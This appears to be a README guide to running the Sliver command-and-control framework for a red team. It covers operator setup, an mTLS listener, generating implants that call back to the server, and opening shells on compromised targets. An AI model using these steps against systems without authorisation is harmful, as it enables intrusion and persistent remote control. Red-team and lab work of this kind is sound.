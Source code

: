 # 1. Administrating Sliver

1. Connect to the server on the host that is installed:
```bash
sliver
```
2. Enable Multiplayer mode, so that other users can connect to the sliver server
```bash
multiplayer
```
3. Create new operators (do this for each team member):
```bash
multiplayer
new-operator --name <operator_name> --lhost <sliver_server_ip>
```

This will generate:
- A config file for the operator that will need to be passed to other operators
- Certificates for authentication

# 2. Create a Listener

This is the listener that will catch the payload from our implant and give us the persistent access. We will create an `mtls` listener. You can also create an `http`, `https`, and `dns`.
```bash
mtls
```

# 3. Generating Implants

To create a implant, use the generate command:
```bash
generate --mtls --ip <SLIVER_IP> --os <Target_OS>
```
    --mtls: Specifies mutual TLS encryption.
    --ip: The IP address of your Sliver server.
    --os: Target operating system (e.g., windows, linux, macos).
    --save: OPTIONAL - You can use the save option to save to an specific path in your vm (e.g, /home/ubuntu).
    
It will give usually save the payload on your `/home/ubuntu` under a random name. It might look like this "RANDOM_NAME"

# 4. Interact with the Target

Once the implant is delivered and executed on the target, you’ll see the session appear in the Sliver client interface. Interact with the target by selecting the session:
This command will display all sessions:
```bash
sessions
```
You can interact with an specific sessions with:
```
use <session_id>
```

# 5. Execute Commands

Use Sliver commands to execute tasks on the compromised system:

help    # View available commands
shell   # Open a shell on the target system

# 6. Operator Configuration

> [!NOTE]  
> You will need to obtain the configuration file from the sliver server admin

Operators need to:
1. Install the Sliver client on their machine:
    1. Download the latest sliver client binary for their linux host https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-client_linux .
    2. Copy the binary into `/usr/local/bin` so that you can just type `sliver` from the cli and it will connect you. 
    ```bash
    cp <PATH_OF_DOWNLOADED_SLIVER_CLIENT_FILE> /usr/local/bin
    ```
3. Copy their configuration file to `~/.sliver/configs/`
    1. If the `~/.sliver/configs` folder doesn't exist. Create it.
5. Connect to the server using:
```bash
sliver
```
You should be able to connect to the sliver server now as your operator.

# 7. Common Commands

List all operators
```bash
operators
```
Remove an operator
```bash
remove-operator <operator_name>
```
List active sessions
```bash
sessions
```

Switch between sessions
```bash
use <session_id>
```

## Troubleshooting

1. If the service fails to start:
   - Check logs: `journalctl -u sliver.service`
   - Verify permissions on config directory
   - Ensure required ports are open

2. Connection issues:
   - Verify operator config is correctly placed
   - Check firewall rules
   - Ensure certificates are valid

## Additional Resources

- [Official Sliver Documentation](https://sliver.sh/docs)
- [GitHub Repository](https://github.com/BishopFox/sliver)
- [Security Considerations](https://sliver.sh/docs?name=Security)
